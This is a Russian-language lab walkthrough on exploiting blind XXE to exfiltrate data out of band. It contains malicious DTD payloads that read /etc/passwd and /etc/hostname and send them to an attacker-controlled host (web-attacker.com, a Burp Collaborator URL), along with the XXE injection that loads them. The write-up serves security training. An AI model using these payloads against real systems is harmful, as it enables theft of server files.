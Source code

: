 Использование слепого XXE для извлечения данных за пределы канала
Обнаружение слепой уязвимости XXE с помощью внеполосных методов — это очень хорошо, но это на самом деле не демонстрирует, как уязвимость может быть использована. На самом деле злоумышленник хочет получить доступ к конфиденциальным данным. Этого можно добиться с помощью слепой уязвимости XXE, но это подразумевает, что злоумышленник размещает вредоносный DTD в системе, которую он контролирует, а затем вызывает внешний DTD из внутриполосной полезной нагрузки XXE.

Пример вредоносного DTD для извлечения содержимого /etc/passwdфайла выглядит следующим образом:

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
Данный DTD выполняет следующие шаги:

Определяет параметрическую сущность XML с именем file, содержащую содержимое файла /etc/passwd.
Определяет параметр XML-сущности, называемый eval, содержащий динамическое объявление другой параметр XML-сущности, называемой exfiltrate. exfiltrateСущность будет оценена путем выполнения HTTP-запроса к веб-серверу злоумышленника, содержащего значение сущности fileв строке запроса URL.
Использует сущность, что приводит к выполнению evalдинамического объявления сущности .exfiltrate
Использует exfiltrateсущность, так что ее значение оценивается путем запроса указанного URL.
Затем злоумышленник должен разместить вредоносный DTD в системе, которую он контролирует, обычно загружая его на свой собственный веб-сервер. Например, злоумышленник может обслуживать вредоносный DTD по следующему URL:

http://web-attacker.com/malicious.dtd
Наконец, злоумышленник должен отправить уязвимому приложению следующую полезную нагрузку XXE:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
Эта полезная нагрузка XXE объявляет сущность параметра XML, которая называется xxe, а затем использует сущность в DTD. Это заставит парсер XML извлечь внешний DTD с сервера злоумышленника и интерпретировать его в строке. Затем выполняются шаги, определенные во вредоносном DTD, и файл /etc/passwdпередается на сервер злоумышленника.

Примечание
Этот метод может не работать с некоторым содержимым файла, включая символы новой строки, содержащиеся в /etc/passwdфайле. Это связано с тем, что некоторые парсеры XML извлекают URL во внешнем определении сущности с помощью API, который проверяет символы, разрешенные для использования в URL. В этой ситуации может быть возможно использовать протокол FTP вместо HTTP. Иногда будет невозможно извлечь данные, содержащие символы новой строки, и поэтому /etc/hostnameвместо этого можно выбрать файл, например .

---

В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

Чтобы решить лабораторную работу, извлеките содержимое файла /etc/hostname.

---

1. Нас встречает список продуктов, переходим на любой из них:

![image](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

2. Внизу страницы есть кнопка "Проверить наличие на складе" включает Burp прокси и нажимаем:

![image](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

3. Поместите полезную нагрузку Burp Collaborator во вредоносный файл DTD:
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://9eoedis3iaw39hfoesyby1y53w9nxnlc.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;

![image](https://github.com/user-attachments/assets/2d285da5-b706-498d-b9d1-b063b2144334)

---

3. Заходим в Proxy -> HTTP History выбираем POST запрос к /product/stock и отправляем в Repeater: 

![image](https://github.com/user-attachments/assets/1ec0f44b-554a-44e4-ad05-c76a4c4857a8)

---

4. Вставьте следующее определение внешней сущности между декларацией XML и stockCheck элементом: <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

![image](https://github.com/user-attachments/assets/8d98ee3a-4293-4d50-8625-7b0f8f900f60)

---

5. Перейдите на вкладку Collaborator и нажмите «Poll now». Если вы не видите перечисленных взаимодействий, подождите несколько секунд и попробуйте снова. Вы должны увидеть некоторые взаимодействия DNS и HTTP, которые были инициированы приложением в результате вашей полезной нагрузки.

6. ![image](https://github.com/user-attachments/assets/95a9db28-ab4b-4259-8e06-871d778d7741)
